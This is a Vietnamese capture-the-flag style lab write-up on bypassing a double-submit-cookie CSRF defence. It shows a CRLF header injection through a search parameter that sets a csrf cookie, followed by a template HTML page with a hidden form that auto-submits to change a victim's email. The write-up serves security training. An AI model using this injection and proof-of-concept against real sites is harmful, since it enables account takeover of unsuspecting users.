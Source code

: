 # CSRF where token is duplicated in cookie

### Yêu cầu: Tạo thẻ HTML để tấn công CSRF thay đổi email của tài khoản người dùng

### Hướng làm: 

Đầu tiên, ta đăng nhập và tài khoản `wiener:peter` sau đó bắt request của bước thay đổi email.

![image](https://user-images.githubusercontent.com/72268643/158011350-ef24c9fc-6b79-4301-9454-575b10a9af0f.png)

Chúng ta thấy rằng cả cookie và token xác thực đều có giá trị là `csrf=NbTObOWB5JaRonW8qAEeKV3mOj4ugCm5`. Cookie và token sẽ được so sánh và đồng ý thực hiện hành động nếu giống nhau. Mình có thử thay đổi giá trị đó thành 1 giá trị bất kì và kết quả trả về thành công thay đổi email.

![image](https://user-images.githubusercontent.com/72268643/158011471-4a069abc-2bfc-4773-b2c5-189f948c1d6f.png)

Vậy nên nếu chúng ta có thể thêm/ghi đè cookie `csrf` sau đó gửi 1 request với giá trị token tương tự thì ta có thể bypass và thực hiện hành động đó.

Đầu tiên, ta sẽ thực hiện bước ghi đè thông qua bắt request thanh công cụ search:

![image](https://user-images.githubusercontent.com/72268643/158011657-2f8b3eb6-abe5-438f-a1c3-bcc67c4e25b3.png)

Sau đó ta thực hiện việc ghi đè cookie `csrf` bằng cách thêm `%0d%0aSet-Cookie:%20csrf=cuong` sau đường dẫn 

![image](https://user-images.githubusercontent.com/72268643/158011807-6efa87e2-84fa-40aa-aef7-69c9889ff023.png)

Set cookie thành công. Cuối cùng, chúng ta sẽ viết PoC để tấn tới nạn nhân theo mẫu sau:
```
<html>
  <body>
    <h1>Hello World</h1> <!-- Phần được hiển thị-->
    <iframe style="display:none;" name="csrf-iframe"></iframe> <!-- Để ẩn thẻ form khi hiển thị tới nạn nhân -->
    <form action="URL_nơi_khai_thác_CSRF_ở_trên_trang_web_đó" method="POST" id="csrf-form">
      <input type="hidden" name="email" value="email_mà_bạn_muốn_đổi">
      <input type="hidden" name="csrf" value="token_của_người_tấn_công" /> <!-- Phải trùng với giá trị cookie -->
    </form>
    <img style="display:none;" src="URL_có_chức_năng_ghi_đè_cookie_csrf" onerror="document.forms[0].submit()">
  </body> <!-- Thẻ này để ghi đè cookie csrf-->
</html>
```
Sau đó gửi lên server và gửi đến cho nạn nhân và hoàn thành lab.
